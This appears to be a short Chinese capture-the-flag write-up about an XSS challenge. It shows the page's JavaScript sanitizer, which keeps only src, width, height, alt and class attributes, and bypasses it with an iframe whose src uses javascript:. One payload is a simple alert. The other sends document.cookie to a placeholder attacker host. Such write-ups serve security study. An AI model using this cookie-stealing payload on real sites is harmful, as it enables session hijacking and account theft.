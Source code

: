 上面那题xss的升级版，也能看过滤的js代码

```
(async () =&gt; `{`
    await new Promise((resolve) =&gt; `{`
        window.addEventListener('load', resolve);
    `}`);

    const content = window.location.hash.substring(1);
    display(atob(content));
`}`)();

function display(input) `{`
    document.documentElement.innerHTML = clean(input);
`}`

function clean(input) `{`
    const template = document.createElement('template');
    const html = document.createElement('html');
    template.content.appendChild(html);
    html.innerHTML = input;

    sanitize(html);

    const result = html.innerHTML;
    return result;
`}`

function sanitize(element) `{`
    const attributes = element.getAttributeNames();
    for (let i = 0; i &lt; attributes.length; i++) `{`
        // Let people add images and styles
        if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) `{`
            element.removeAttribute(attributes[i]);
        `}`
    `}`

    const children = element.children;
    for (let i = 0; i &lt; children.length; i++) `{`
        if (children[i].nodeName === 'SCRIPT') `{`
            element.removeChild(children[i]);
            i --;
        `}` else `{`
            sanitize(children[i]);
        `}`
    `}`
`}`
```

标签属性只能带`'src', 'width', 'height', 'alt', 'class'`,其他的属性全部移除掉，可以利用`iframe`构造

```
&lt;iframe src="javascript:alert(1)"&gt;

&lt;iframe src="javascript:top.location.href='http://ip/?c='+document.cookie"&gt;

```
